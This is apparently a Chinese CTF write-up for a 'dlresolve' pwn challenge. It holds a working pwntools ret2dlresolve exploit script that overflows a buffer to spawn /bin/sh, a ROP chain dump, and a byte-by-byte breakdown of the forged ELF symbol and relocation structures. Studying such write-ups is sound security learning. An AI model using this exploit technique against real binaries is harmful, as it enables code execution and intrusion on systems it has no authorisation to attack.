

# W3 dlresolve

## 文件分析

NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

题目提示了使用ret2dlresolve，我们可以直接使用pwntools的工具生成

官方题解用了比较复杂的方式，而且与脚本实现也有很多不同，所以我就想弄清楚 pwntools
与官方题解有什么区别，因此下文只解析pwntools的实现，文末我也会把官方题解放上

## EXPLOIT

```python
# copy from official sample
from pwn import *
def payload():
    global sh
    context.arch = 'amd64'
    sh = gdb.debug('dlresolve')
    elf = ELF('dlresolve')

    bssHigh = 0x404500
    readAddr = 0x401192
    leaveRetAddr = 0x4011a9
    retAddr = 0x4011aa

    rop = ROP(elf)
    dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=["/bin/sh"])
    rop.read(0, dlresolve.data_addr)
    rop.ret2dlresolve(dlresolve)
    raw_rop = rop.chain()

    sh.sendline(b'0'*120 + p64(retAddr) + raw_rop)
    sh.sendline(dlresolve.payload)
    sh.interactive()

payload()
```

## Ret2Dlresolve对象详解

相比起官方脚本，用工具生成不但简单，而且payload也短，以下是我的研究结果

使用`rop.dump()`，我们得以窥见rop攻击的具体含义：
```
0x0000:         0x40116b pop rsi; ret
0x0008:         0x404e00 [arg1] rsi = 4214272
0x0010:         0x40115e pop rdi; ret
0x0018:              0x0 [arg0] rdi = 0
0x0020:         0x401064 read
0x0028:         0x40115e pop rdi; ret
0x0030:         0x404e38 [arg0] rdi = 4214328
0x0038:         0x401020 [plt_init] system
0x0040:            0x30b [dlresolve index]
```
> ps: 复盘的时候忘记加`context.arch = 'amd64'`了，dump结果都变了，一定要注意！

到read都不必我说，接下来pop的rdi，是指向伪造出来的"/bin/sh"字符串的指针，
这样就能在解析完成后指定参数打开shell；然后0x401020是plt_init的地址，
这个“函数”做两件事：将link_map压到栈上，然后执行`dl_runtime_resolve`函数进行加载  
栈上还有一个index，是下图中的reloc_arg，可以由此指向伪造的ElfRel

那么这里为什么reloc_arg是0x30b呢？查了以下pwntools的源码，计算可推出如下关系：
`reloc_arg * ElfRel.size + __DT_SYMTAB -> &fakeRel`  
因为64位下ElfRel的大小是24字节，计算中可以将24带入；__DT_SYMTAB是指`__DT_SYMTAB`这个标签的地址；
这里使用'->'是因为这两边并不一定相等，而是存在对齐调整的  
至此，`rop`部分已经分析完毕

接下来是`dlresolve.payload`部分：这一部分没有`dump`函数，只有bytes，
不过动调以后也逐渐搞明白了其结构，接下来用伪c代码，按结构展开各个字节对应的内容  
（前面的标号是字段在payload中的起始地址）
```c
0:  "system\0a" // 'a' for padding
Elf64_Sym fakeSym = {
8:  st_name = 0x49a8, // __DT_STRTAB + st_name == (char *)"system"
12: st_info = 0,
13: st_other = 0,
14: st_shndx = 0,
16: st_value = 0,
24: st_size = 0
} // size: 24
Elf64_Rel fakeRel = {
32: r_offset = 0x404e00,    // 解析完的地址存放的地址（伪造got）
40: r_info = 0x31800000007, // __DT_SYMTAB + 0x318 * 24 == &fakeSym
48: r_append = 0
} // size: 24
56: "/bin/sh\0" // argument
```
共计64字节，无关的条目全部填0，需要伪造的条目已经在后面写上了注释，具体dlresolve的执行流程见下图：  
  
可以看到，所生成的结构在函数解析中一次次被使用，没有任何多余

如果到这里还觉得迷迷糊糊的话，建议动调步进观察`dl_fixup`函数的运行情况；
此外我在研究的时候也离不开[这篇知乎文章](https://zhuanlan.zhihu.com/p/134105591)的深入讲解，
搭配两者一起使用，是能理解其中奥秘的根本

另外，作者还提到了其他文章所没有介绍的Full Relro的利用方法，也可以学习一下

## 参考

1. [图片来源文章](https://blog.csdn.net/IO1n0/article/details/103323738 "透过深入分析延迟绑定了解 ret_2_dl_resolve:1Oin0的博客")
2. [深入讲解动态加载技术的知乎文章](https://zhuanlan.zhihu.com/p/134105591 "深入窥探动态链接:1Oin0的看雪论坛文章")
3. [官方题解](https://shimo.im/docs/QPMRxzGktzsZnzhz/read "详见dlresolve一节")
4. [dlresolve官方示例](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html#module-pwnlib.rop.ret2dlresolve "pwnlib.rop.ret2dlresolve")
5. [dlresolve源码](https://github.com/Gallopsled/pwntools/blob/2e09b7dd91/pwnlib/rop/ret2dlresolve.py "pwntools/pwnlib/rop/ret2dlresolve.py @ GitHub")

Done.
